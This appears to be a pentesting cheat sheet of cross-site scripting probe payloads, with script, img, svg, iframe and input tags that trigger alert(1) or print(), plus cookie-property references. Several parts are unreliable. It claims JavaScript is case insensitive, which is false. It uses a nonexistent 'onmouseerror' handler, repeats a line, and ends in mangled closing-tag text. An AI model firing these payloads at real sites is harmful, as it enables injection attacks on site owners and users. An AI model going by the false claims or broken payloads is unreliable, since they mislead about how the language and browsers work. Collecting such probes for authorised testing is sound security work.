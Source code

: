 # JavaScript

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

> [!INFO]
> JavaScript code snippets are case insensitive. Use this to your advantage to obfuscate it.

## 01 - Prefix

```
>
'>
">
```

## 02 - JavaScript Cookie Properties

```
document.cookie
window.origin
document.cookie
```

## 03 - JavaScript Pop-Up Message

```
<script>alert(1)</script>
<script>print()</script>

<img src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<svg src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>

<iframe src="" onerror=alert(1)>

<input autofocus onfocus="setTimeout(function() {alert(1)}, 5000);"></input><;/style<;/title<;/textarea<;/script>
```

---
## References

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

- [Hacktricks: Unicode Injection](https://book.hacktricks.xyz/pentesting-web/unicode-injection)